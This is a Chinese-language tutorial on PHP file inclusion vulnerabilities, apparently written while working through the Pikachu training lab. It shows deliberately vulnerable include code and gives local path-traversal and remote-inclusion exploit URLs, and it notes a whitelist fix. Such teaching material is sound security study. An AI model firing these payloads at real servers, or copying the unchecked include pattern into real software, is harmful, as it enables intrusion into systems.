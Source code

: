 
## File Inclusion

文件包含，是一个功能。在各种开发语言中都提供了内置的文件包含函数，其可以使开发人员在一个代码文件中直接包含（引入）另外一个代码文件。 比如 在PHP中，提供了：
- include(),include_once()
- require(),require_once()

大多数情况下，文件包含函数中包含的代码文件是固定的，因此也不会出现安全问题。 但是，有些时候，文件包含的代码文件被写成了一个变量，且这个变量可以由前端用户传进来，这种情况下，如果没有做足够的安全考虑，则可能会引发文件包含漏洞。 攻击着会指定一个“意想不到”的文件让包含函数去执行，从而造成恶意操作。 根据不同的配置环境，文件包含漏洞分为如下两种情况：
1. 本地文件包含漏洞：仅能够对服务器本地的文件进行包含，由于服务器上的文件并不是攻击者所能够控制的，因此该情况下，攻击着更多的会包含一些 固定的系统配置文件，从而读取系统敏感信息。很多时候本地文件包含漏洞会结合一些特殊的文件上传漏洞，从而形成更大的威力。
2. 远程文件包含漏洞：能够通过url地址对远程的文件进行包含，这意味着攻击者可以传入任意的代码，这种情况没啥好说的，准备挂彩。

因此，在web应用系统的功能设计上尽量不要让前端用户直接传变量给包含函数，如果非要这么做，也一定要做严格的白名单策略进行过滤。

### 本地文件包含
**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "include/$filename";//变量传进来直接包含,没做任何的安全限制
//     //安全的写法,使用白名单，严格指定包含的文件名
//     if($filename=='file1.php' || $filename=='file2.php' || $filename=='file3.php' || $filename=='file4.php' || $filename=='file5.php'){
//         include "include/$filename";

//     }
}
```

**漏洞利用**

查看页面的 url: `http://<服务器IP!!!>/pikachu/vul/fileinclude/fi_local.php?filename=file1.php&submit=提交`

尝试构造 payload: `http://<服务器IP!!!>/pikachu/vul/fileinclude/fi_local.php?filename=../../../test/phpinfo.txt&submit=%E6%8F%90%E4%BA%A4`

### 远程文件包含
将 allow_url_include 设置为 On

**服务器端核心代码**
```php
//远程文件包含漏洞,需要php.ini的配置文件符合相关的配置
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "$filename";//变量传进来直接包含,没做任何的安全限制
}
```

**漏洞利用**

尝试构造 payload: `http://<服务器IP!!!>/pikachu/vul/fileinclude/fi_remote.php?filename=http://<服务器B IP!!!>/phpinfo.php&submit=%E6%8F%90%E4%BA%A4`

---
